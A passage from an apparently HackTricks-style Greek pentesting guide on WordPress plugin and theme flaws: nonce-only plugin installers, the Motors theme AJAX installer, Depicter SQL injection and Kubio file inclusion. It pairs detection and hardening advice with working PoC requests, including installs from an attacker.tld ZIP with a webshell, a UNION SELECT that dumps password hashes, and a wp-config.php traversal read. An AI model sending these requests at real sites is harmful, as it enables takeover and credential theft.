- Ελάττωμα: αδύναμος έλεγχος nonce hash· δεν γίνεται `current_user_can('install_plugins'|'activate_plugins')` αφού το nonce «περάσει»
- Επίπτωση: πλήρης παραβίαση μέσω εγκατάστασης/ενεργοποίησης αυθαίρετου plugin

PoC (η μορφή εξαρτάται από το plugin· μόνο για ενδεικτικούς σκοπούς)

```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
  -H 'Content-Type: application/json' \
  --data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```

Λίστα ελέγχου εντοπισμού
- REST/AJAX handlers που τροποποιούν plugins/themes χρησιμοποιώντας μόνο wp_verify_nonce()/check_admin_referer() χωρίς έλεγχο capability
- Οποιοδήποτε code path που ορίζει $skip_caps = true μετά την επικύρωση του nonce

Ενίσχυση ασφάλειας
- Να αντιμετωπίζετε πάντα τα nonces μόνο ως CSRF tokens· να επιβάλλετε ελέγχους capability ανεξάρτητα από την κατάσταση του nonce
- Να απαιτείτε current_user_can('install_plugins') και current_user_can('activate_plugins') πριν από την πρόσβαση στον κώδικα installer
- Να απορρίπτετε μη πιστοποιημένη πρόσβαση· να αποφεύγετε την έκθεση nopriv AJAX actions για privileged flows

### Subscriber+ AJAX installer plugin → εξαναγκασμένη κακόβουλη ενεργοποίηση (Motors Theme ≤ 5.6.81)

Η [ανάλυση του Patchstack](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/) έδειξε πώς το Motors theme περιλαμβάνει έναν πιστοποιημένο AJAX helper για την εγκατάσταση του συνοδευτικού plugin:<sup>[[16]](#references)</sup>

```php
add_action('wp_ajax_mvl_theme_install_base', 'mvl_theme_install_base');

function mvl_theme_install_base() {
    check_ajax_referer('mvl_theme_install_base', 'nonce');

    $plugin_url  = sanitize_text_field($_GET['plugin']);
    $plugin_slug = 'motors-car-dealership-classified-listings';

    $upgrader = new Plugin_Upgrader(new Motors_Theme_Plugin_Upgrader_Skin(['plugin' => $plugin_slug]));
    $upgrader->install($plugin_url);
    mvl_theme_activate_plugin($plugin_slug);
}
```

- Καλείται μόνο η `check_ajax_referer()`· δεν υπάρχει `current_user_can('install_plugins')` ή `current_user_can('activate_plugins')`.
- Το nonce είναι ενσωματωμένο στη σελίδα διαχείρισης του Motors, επομένως κάθε Subscriber που μπορεί να ανοίξει το `/wp-admin/` μπορεί να το αντιγράψει από το HTML/JS.
- Ο handler εμπιστεύεται την παράμετρο `plugin`, την οποία ελέγχει ο attacker (διαβάζεται από το `$_GET`), και την περνά στη `Plugin_Upgrader::install()`, με αποτέλεσμα να γίνεται λήψη ενός αυθαίρετου απομακρυσμένου ZIP στο `wp-content/plugins/`.
- Μετά την εγκατάσταση, το theme καλεί χωρίς προϋποθέσεις τη `mvl_theme_activate_plugin()`, διασφαλίζοντας την εκτέλεση του PHP code του plugin του attacker.

#### Ροή exploitation

1. Εγγράψτε/παραβιάστε έναν λογαριασμό με χαμηλά προνόμια (αρκεί ο ρόλος Subscriber) και πάρτε το nonce `mvl_theme_install_base` από το UI του dashboard του Motors.
2. Δημιουργήστε ένα ZIP plugin του οποίου ο κατάλογος κορυφαίου επιπέδου αντιστοιχεί στο αναμενόμενο slug `motors-car-dealership-classified-listings/` και ενσωματώστε ένα backdoor ή webshell στα σημεία εισόδου `*.php`.
3. Φιλοξενήστε το ZIP και ενεργοποιήστε τον installer, παραπέμποντας τον handler στο URL σας:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Cookie: wordpress_logged_in_=...
Content-Type: application/x-www-form-urlencoded

action=mvl_theme_install_base&nonce=<leaked_nonce>&plugin=https%3A%2F%2Fattacker.tld%2Fmotors-car-dealership-classified-listings.zip
```

Because ο handler διαβάζει το `$_GET['plugin']`, το ίδιο payload μπορεί επίσης να σταλεί μέσω του query string.

#### Λίστα ελέγχου εντοπισμού

- Αναζητήστε σε themes/plugins τα `Plugin_Upgrader`, `Theme_Upgrader` ή custom helpers `install_plugin.php` που συνδέονται με hooks `wp_ajax_*` χωρίς ελέγχους δικαιωμάτων.
- Ελέγξτε κάθε handler που λαμβάνει μια παράμετρο `plugin`, `package`, `source` ή `url` και τη μεταβιβάζει σε API αναβάθμισης, ιδιαίτερα όταν το slug είναι hard-coded αλλά τα περιεχόμενα του ZIP δεν επικυρώνονται.
- Ελέγξτε τις σελίδες διαχείρισης που εκθέτουν nonces για ενέργειες εγκατάστασης — αν οι Subscribers μπορούν να φορτώσουν τη σελίδα, θεωρήστε ότι το nonce διαρρέει.

#### Ενίσχυση ασφάλειας

- Περιορίστε τα AJAX callbacks εγκατάστασης με `current_user_can('install_plugins')` και `current_user_can('activate_plugins')` μετά την επαλήθευση του nonce· το Motors 5.6.82 εισήγαγε αυτόν τον έλεγχο για να διορθώσει το bug.
- Απορρίψτε μη έμπιστες διευθύνσεις URL: περιορίστε τα προγράμματα εγκατάστασης σε ενσωματωμένα ZIP ή έμπιστα repositories ή επιβάλετε υπογεγραμμένα manifests λήψης.
- Αντιμετωπίζετε αυστηρά τα nonces ως tokens CSRF· δεν παρέχουν εξουσιοδότηση και δεν πρέπει ποτέ να αντικαθιστούν τους ελέγχους δικαιωμάτων.

---

## Μη αυθεντικοποιημένο SQLi μέσω της παραμέτρου s search σε ενέργειες depicter-* (Depicter Slider ≤ 3.6.1)

Πολλαπλές ενέργειες depicter-* χρησιμοποιούσαν την παράμετρο s (search) και την ενσωμάτωναν σε SQL queries χωρίς παραμετροποίηση.<sup>[[14]](#references)</sup>

- Παράμετρος: s (search)
- Αδυναμία: απευθείας συνένωση συμβολοσειρών σε όρους WHERE/LIKE· χωρίς prepared statements/εξυγίανση
- Επιπτώσεις: εξαγωγή δεδομένων βάσης δεδομένων (χρήστες, hashes), πλευρική μετακίνηση

PoC

```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
  --data-urlencode 'action=depicter_search' \
  --data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```

Λίστα ελέγχου εντοπισμού
- Κάντε Grep για depicter-* action handlers και άμεση χρήση των $_GET['s'] ή $_POST['s'] σε SQL
- Ελέγξτε τα custom queries που περνούν στα $wpdb->get_results()/query() και συνενώνουν το s

---

## Ενίσχυση ασφάλειας
- Χρησιμοποιείτε πάντα $wpdb->prepare() ή placeholders του wpdb· απορρίπτετε μη αναμενόμενους metacharacters από την πλευρά του server
- Προσθέστε αυστηρή allowlist για το s και κανονικοποιήστε το στο αναμενόμενο charset/μήκος

---

## Unauthenticated Local File Inclusion μέσω μη επικυρωμένης διαδρομής template/file (Kubio AI Page Builder ≤ 2.5.1)

Η αποδοχή διαδρομών που ελέγχονται από τον επιτιθέμενο σε μια παράμετρο template χωρίς κανονικοποίηση/περιορισμό επιτρέπει την ανάγνωση αυθαίρετων τοπικών αρχείων και, μερικές φορές, την εκτέλεση κώδικα, αν αρχεία PHP/log που μπορούν να γίνουν include φορτωθούν στο runtime.<sup>[[15]](#references)</sup>

- Παράμετρος: __kubio-site-edit-iframe-classic-template
- Ελάττωμα: χωρίς κανονικοποίηση/allowlist· επιτρέπεται το traversal
- Επίπτωση: αποκάλυψη μυστικών (wp-config.php), πιθανό RCE σε συγκεκριμένα περιβάλλοντα (log poisoning, includable PHP)

PoC – ανάγνωση του wp-config.php

```bash
curl -i "https://victim.tld/?__kubio-site-edit-iframe-classic-template=../../../../wp-config.php"
```

Λίστα ελέγχου εντοπισμού
- Κάθε handler που συνενώνει request paths σε sinks των include()/require()/read χωρίς πραγματικό έλεγχο περιορισμού με realpath()
- Αναζητήστε μοτίβα traversal (../) που οδηγούν εκτός του προβλεπόμενου καταλόγου templates

Ενίσχυση ασφάλειας
- Επιβάλετε allowlist για τα templates· επιλύστε τις διαδρομές με realpath() και απαιτήστε str_starts_with(realpath(file), realpath(allowed_base))
- Κανονικοποιήστε την είσοδο· απορρίψτε ακολουθίες traversal και απόλυτες διαδρομές· χρησιμοποιήστε sanitize_file_name() μόνο για ονόματα αρχείων (όχι για πλήρεις διαδρομές)


## References

- [1] [Ευπάθεια αυθαίρετης διαγραφής αρχείων χωρίς έλεγχο ταυτότητας στο θέμα Litho](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [2] [Διορθώθηκαν πολλαπλές κρίσιμες ευπάθειες στο πρόσθετο WP Job Portal](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [3] [Σπάνια περίπτωση κλιμάκωσης προνομίων στο πρόσθετο ASE που επηρεάζει πάνω από 100.000 ιστότοπους](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [4] [Σύνολο αλλαγών ASE 7.6.3 – διαγραφή αρχικών ρόλων κατά την ενημέρωση προφίλ](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [5] [Δοκιμές ασφάλειας φιλοξενίας: το 87,8% των εκμεταλλεύσεων ευπαθειών παρακάμπτει τις άμυνες φιλοξενίας](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [6] [WooCommerce Payments ≤ 5.6.1 – Κλιμάκωση προνομίων χωρίς έλεγχο ταυτότητας μέσω έμπιστης κεφαλίδας (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [7] [Hackers εκμεταλλεύονται κρίσιμο σφάλμα στο WordPress WooCommerce Payments](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [8] [Μη διορθωμένη κλιμάκωση προνομίων στο πρόσθετο Service Finder Bookings](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [9] [Κλιμάκωση προνομίων στο Service Finder Bookings – καταχώριση Patchstack DB](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)
- [10] [Ευπάθεια ελαττωματικού ελέγχου ταυτότητας χωρίς έλεγχο ταυτότητας στο θέμα WordPress Jobmonster](https://patchstack.com/articles/unauthenticated-broken-authentication-vulnerability-in-wordpress-jobmonster-theme/)
- [11] [Οι ευπάθειες του WordPress με τις περισσότερες εκμεταλλεύσεις το Q3 2025 και πώς τις απέκλεισε το RapidMitigate](https://patchstack.com/articles/q3-2025s-most-exploited-wordpress-vulnerabilities-and-how-patchstacks-rapidmitigate-blocked-them/)
- [12] [OttoKit (SureTriggers) ≤ 1.0.82 – Κλιμάκωση προνομίων (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-1-0-82-privilege-escalation-vulnerability)
- [13] [FunnelKit Automations ≤ 3.5.3 – Αυθαίρετη εγκατάσταση πρόσθετου χωρίς έλεγχο ταυτότητας (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/wp-marketing-automations/vulnerability/wordpress-recover-woocommerce-cart-abandonment-newsletter-email-marketing-marketing-automation-by-funnelkit-plugin-3-5-3-missing-authorization-to-unauthenticated-arbitrary-plugin-installation-vulnerability)
- [14] [Depicter Slider ≤ 3.6.1 – SQLi χωρίς έλεγχο ταυτότητας μέσω της παραμέτρου s (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)
- [15] [Kubio AI Page Builder ≤ 2.5.1 – LFI χωρίς έλεγχο ταυτότητας (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/kubio/vulnerability/wordpress-kubio-ai-page-builder-plugin-2-5-1-unauthenticated-local-file-inclusion-vulnerability)
- [16] [Κρίσιμη ευπάθεια αυθαίρετης μεταφόρτωσης αρχείων στο θέμα Motors που επηρεάζει πάνω από 20.000 ιστότοπους](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/)
- [17] [nowak0x01.github.io - Εργασίες](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)
- [18] [nowotarski.info - Εξουσιοδότηση με WordPress Nonce](https://nowotarski.info/wordpress-nonce-authorization)
- [19] [XSS2Shell: Αλυσίδα από XSS χωρίς έλεγχο ταυτότητας στο WordPress έως RCE](https://pwn.ai/blog/xss2shell)
- [20] [Έκδοση ασφαλείας WordPress 7.0.3](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [21] [Επεξεργασία του `wp-config.php` – Εγχειρίδιο προηγμένης διαχείρισης WordPress](https://developer.wordpress.org/advanced-administration/wordpress/wp-config/)
- [22] [WordPress XML-RPC API και υλοποίηση διακομιστή](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/)
- [23] [Νέα λειτουργία XML Sitemaps στο WordPress 5.5](https://make.wordpress.org/core/2020/07/22/new-xml-sitemaps-functionality-in-wordpress-5-5/)
- [24] [Ρόλοι χρηστών και δυνατότητες του WordPress](https://developer.wordpress.org/apis/security/user-roles-and-capabilities/)
- [25] [`wp_xmlrpc_server::pingback_ping()` και ασφαλής επικύρωση απομακρυσμένων URL](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/pingback_ping/)
- [26] [Έλεγχοι αιτημάτων WordPress του QuickPress](https://github.com/t0gu/quickpress/blob/master/core/requests.go)
- [27] [Τα WordPress nonces δεν αποτελούν εξουσιοδότηση](https://developer.wordpress.org/apis/security/nonces/)
- [28] [Ρύθμιση αυτόματων ενημερώσεων παρασκηνίου του WordPress](https://developer.wordpress.org/advanced-administration/upgrade/upgrading/)
- [29] [Ενίσχυση της ασφάλειας του WordPress](https://developer.wordpress.org/advanced-administration/security/hardening/)
- [30] [Must Use Plugins – Εγχειρίδιο προηγμένης διαχείρισης WordPress](https://developer.wordpress.org/advanced-administration/plugins/mu-plugins/)
- [31] [Χιλιάδες παραβιασμένοι ιστότοποι WordPress, μία επιχείρηση: αποκάλυψη του StopAndProtect](https://research.checkpoint.com/2026/thousands-of-hacked-wordpress-sites-one-operation-unmasking-stopandprotect/)
{{#include ../../banners/hacktricks-training.md}}
